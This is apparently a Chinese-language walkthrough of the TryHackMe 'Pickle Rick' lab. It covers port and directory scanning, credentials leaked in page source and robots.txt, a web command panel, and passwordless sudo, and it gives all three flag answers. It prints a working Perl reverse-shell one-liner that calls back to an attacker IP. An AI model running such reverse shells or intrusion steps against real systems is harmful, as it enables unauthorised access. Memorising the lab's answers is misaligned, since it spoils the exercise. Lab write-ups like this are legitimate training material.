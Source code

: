 # THM-Pickle Rick-练习

本文相关的TryHackMe实验房间链接：https://tryhackme.com/room/picklerick

![img](https://i.imgur.com/BkKtAkO.png)

## 任务目标

找到3个成分，将帮助瑞克制作他的药水，把自己从一个泡菜变回人类。

目标地址[https:/MACHINE-IP.p.thmlabs.com](https://10-10-253-251.p.thmlabs.com/) 此处为：https://10-10-253-251.p.thmlabs.com/

## 实践操作

```
端口扫描
nmap -T4 -sC -sV -p- 10.10.253.251  
```

![image-20220927120845431](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927120845431.png)

> 目标开放了两个端口：22/tcp ssh服务 80/tcp http服务

访问目标网站的http服务，查看网站源代码，获取到关于用户名的提示：

![image-20220927121045775](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927121045775.png)

> 用户名为：R1ckRul3s

```
目录和文件扫描
gobuster dir -u http://10.10.253.251 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,css,js,py
```

![image-20220927122325445](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927122325445.png)

> 扫描到
>
> /index.html
>
> /login.php
>
> /assets
>
> /portal.php
>
> /robots.txt

去目标站点访问以上页面和文件：

```
index.html是首页，和之前访问网站时的默认页面一样，
login.php是登陆页面（这个要关注一下），
assets目录下有一些网站资源文件（看了一下没啥特别的），
portal.php访问时会自动跳转到之前的login.php页面，估计要登陆后才能看到，
robot.txt文件有一串字符为Wubbalubbadubdub，可能是登陆密码。
```

![image-20220927123458547](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927123458547.png)

![image-20220927123534743](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927123534743.png)

![image-20220927123419683](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927123419683.png)

在登陆页面尝试使用之前得到的用户名以及在robots文件中得到的字符进行登陆，发现能够登陆成功，并给出一个命令执行面板：

![image-20220927124227553](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927124227553.png)

利用命令面板，输入命令查找文件信息，找到第一个flag（无法通过cat命令查看，但可通过url路径进行访问）：

![image-20220927124643763](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927124643763.png)

![image-20220927124733364](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927124733364.png)

> 第一个flag是：mr. meeseek hair

继续探索命令面板，第一次使用ls命令还看到了一些其他文件，现在尝试访问一下，denied.php是一个被禁止访问的页面，clue.txt提示我们在文件系统中查找其他成分：

![image-20220927125210820](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927125210820.png)

利用网站所提供的命令面板建立反向shell（这里试了很多语言的反向shell，发现Perl语言的shell可行），首先在攻击机终端建立监听器，查看该服务器是否支持Perl（命令：which Perl），再执行Perl的反向shell命令：

![image-20220927131746063](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927131746063.png)

反向shell命令内容参考（修改ip、端口和攻击机匹配）：https://github.com/security-cheatsheet/reverse-shell-cheatsheet

```
perl -e 'use Socket;$i="10.14.30.69";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![image-20220927133646735](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927133646735.png)

成功建立反向shell，查找flag即可，第一个flag我们已经知道 我们找其他的（当前目录没有目标flag时，尝试找/home /root等关键目录）：

![image-20220927133924593](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927133924593.png)

![image-20220927134805181](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927134805181.png)

> 第二个flag是：1 jerry tear

> 上图中的 cat 'second ingredients' 之所以加单引号是因为该名称中间存在空格
>
> 如果不加引号 则只能识别到second而不是second ingredients
>
> 也可以尝试用其他方式处理：second\ ingredients或者"second ingredients"

尝试cd /root，发现无法移动到/root目录下，

输入sudo -l 列出目前用户可执行与无法执行的指令，发现我们可以通过sudo免密码使用root用户：

![image-20220927135922502](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927135922502.png)

![image-20220927135847160](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927135847160.png)

> 第三个flag是：fleeb juice

关于第二个flag和第三个flag的其他解法

利用登陆之后网页所提供的命令面板：

```
输入ls会显示当前网站根目录下的目录及文件
输入sudo -l列出目前用户可执行与无法执行的指令，发现我们可以通过sudo免密码使用root用户

此时，可以使用sudo ls命令找到/home目录以及/root下的flag文件，
对于/home目录，也可以通过组合命令（cd /home;ls;pwd、cd /home/rick/;ls;pwd）去找flag文件   

如果想通过网站url访问flag文件内容，可以使用sudo cp命令复制flag文件到网站根目录，涉及的命令如下：
sudo ls /home
sudo ls /home/rick/
sudo cp /home/rick/second\ ingredients ./second.txt   
sudo ls /root
sudo cp /root/3rd.txt . 

如果想直接在网页的命令面板界面查看flag内容，可以使用以下命令（当然前提还是要先找到flag文件的位置）：
less /home/rick/second\ ingredients
sudo less /root/3rd.txt
```

![image-20220927143427676](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927143427676.png)

![image-20220927143605462](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927143605462.png)

![image-20220927151113944](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927151113944.png)

![image-20220927151156861](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927151156861.png)

> 关于less命令：less命令 的作用与more十分相似，都可以用来浏览文字档案的内容，不同的是less命令允许用户向前或向后浏览文件，而more命令只能向前浏览。

## 完整答案

![image-20220927140953884](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927140953884.png)
